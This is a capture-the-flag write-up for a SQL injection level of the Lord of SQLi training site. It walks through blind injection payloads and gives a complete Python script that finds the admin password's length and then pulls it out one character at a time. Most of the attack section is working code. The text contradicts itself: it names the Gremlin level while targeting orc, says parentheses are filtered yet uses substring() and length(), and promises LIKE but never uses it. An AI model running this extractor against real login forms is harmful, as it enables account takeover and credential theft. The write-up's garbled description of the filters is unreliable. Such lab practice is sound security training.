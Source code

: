 # SQL Injection on Gremlin Challenge

## Challenge Analysis

### Code Review
1. **PHP Code Analysis:**
    - The provided PHP code connects to a database and attempts to authenticate based on an `id` and a parameter `pw`.
    - The code includes checks to prevent certain SQL injection characters, specifically:
        - It blocks keywords like `prob`, `_`, `.`, and `()` by regex matching in the `pw` parameter.
        - It also uses `addslashes()` to escape quotes (`'`, `"`, and `\`), making classic injection techniques more difficult.
    - The query is executed twice:
        - First, to check if the `id` is `admin` and the `pw` matches the input.
    - Second, to verify if the retrieved `pw` matches the input `pw` exactly.
2. **SQL Query Structure:**
    - The SQL query generated is:
    ```sql
    select id from prob_orc where id='admin' and pw='{$_GET[pw]}'
    ```
    - The goal is to bypass the filters and inject SQL into the `pw` parameter to make the query return the `id` of `admin`.

3. **Objective:**
    - Our goal is to extract the pw for the admin account by performing a blind SQL injection. This involves guessing the password character by character.

### Bypass Strategy
1. **Blind SQL Injection:**
    - Since the application does not directly display database errors or data, we need to use a blind SQL injection technique.
    - We can use the `LIKE` operator to guess each character of the password sequentially.
2. **Formulating the Injection Payload:**
    - We can craft a payload that checks if a specific character of the password matches a guessed value:
    ```sql
    ' or id='admin' and substring(pw,1,1)='a' -- 
    ```
    - This payload checks if the first character of the password is `'a'`. If true, the query will return the `id` of `admin`.
3. **Automating the Process:**
    - To efficiently guess the password, we can write a Python script that iterates through possible characters and positions in the password.

## Solution Steps
### Step 1: Determine the Password Length
1. **Payload:**
    - We first need to determine the length of the password. We can use the following payload:
    ```sql
    ' or id='admin' and length(pw)=8 -- 
    ```
    - This checks if the password length is 8 characters.
2. **Script Implementation:**
    - The script iterates through possible lengths and checks for a successful response:
    ```python
    def get_password_length():
        for i in range(1, 20):
            payload = f"' or id='admin' and length(pw)={i} -- "
            params = {"pw": payload}
            response = requests.get(url, params=params, cookies=cookies)
            if "Hello admin" in response.text:
                return i
        return 0
    ```
3. **Result:**
    - The script determines that the password is 8 characters long.
### Step 2: Extract the Password
1. **Payload:**
    - For each character position, we guess the character using the following payload:
    ```sql
    ' or id='admin' and substring(pw,{position},1)='{character}' -- 
    ```
    - This checks if the character at the specified position matches the guessed value.
2. **Script Implementation:**
    - The script iterates through each character position and possible characters:
    ```python
    def get_password(password_length):
        password = ""
        for i in range(1, password_length + 1):
            for char in "0123456789abcdefghijklmnopqrstuvwxyz":
                payload = f"' or id='admin' and substring(pw, {i}, 1)='{char}' -- "
                params = {"pw": payload}
                response = requests.get(url, params=params, cookies=cookies)
                if "Hello admin" in response.text:
                    password += char
                    print(f"Found character {i}: {char}")
                    break
        return password
    ```
3. **Result:**
    - The script successfully extracts the password.
### Step 3: Submit the Password
1. **Payload:**
    - Once the password is known, we submit it to solve the challenge:
    ```sql
    ?pw=<password>
    ```
2. **Script Implementation:**
    - The script submits the password and checks for a success message:
    ```python
    def solve_challenge(password):
        params = {"pw": password}
        response = requests.get(url, params=params, cookies=cookies)
        if "Clear" in response.text:
            print("Challenge solved!")
        else:
            print("Failed to solve the challenge.")
    ```
3. **Result:**
    - The challenge is solved, and the success message is displayed.

## Full Python Script
```python
import requests

# Configuration
url = "https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php"
cookies = {"PHPSESSID": "your_session_id"}  # Replace with your session ID

# Step 1: Determine the password length
def get_password_length():
    for i in range(1, 20):
        payload = f"' or id='admin' and length(pw)={i} -- "
        params = {"pw": payload}
        response = requests.get(url, params=params, cookies=cookies)
        if "Hello admin" in response.text:
            return i
    return 0

# Step 2: Extract the password
def get_password(password_length):
    password = ""
    for i in range(1, password_length + 1):
        for char in "0123456789abcdefghijklmnopqrstuvwxyz":
            payload = f"' or id='admin' and substring(pw, {i}, 1)='{char}' -- "
            params = {"pw": payload}
            response = requests.get(url, params=params, cookies=cookies)
            if "Hello admin" in response.text:
                password += char
                print(f"Found character {i}: {char}")
                break
    return password

# Step 3: Solve the challenge
def solve_challenge(password):
    params = {"pw": password}
    response = requests.get(url, params=params, cookies=cookies)
    if "Clear" in response.text:
        print("Challenge solved!")
    else:
        print("Failed to solve the challenge.")

# Main execution
password_length = get_password_length()
print(f"Password length: {password_length}")

if password_length:
    password = get_password(password_length)
    print(f"Password: {password}")
    solve_challenge(password)
else:
    print("Could not determine password length.")
```

## Conclusion
Conclusion
By analyzing the challenge and using a blind SQL injection technique, we successfully extracted the password and solved the challenge. This approach demonstrates how to bypass filters and automate the extraction of sensitive data using Python.
